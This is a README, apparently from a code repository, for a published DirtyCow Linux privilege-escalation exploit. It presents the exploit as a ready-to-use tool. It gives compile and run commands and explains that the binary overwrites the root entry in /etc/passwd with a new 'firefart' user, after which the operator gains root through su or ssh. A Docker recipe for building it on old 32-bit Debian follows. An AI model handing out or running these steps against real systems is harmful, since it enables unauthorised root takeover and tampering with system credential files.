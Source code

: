 # DirtyCow and Coverherd

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 coverherd.c
...
```
* Follow the compilation instructions


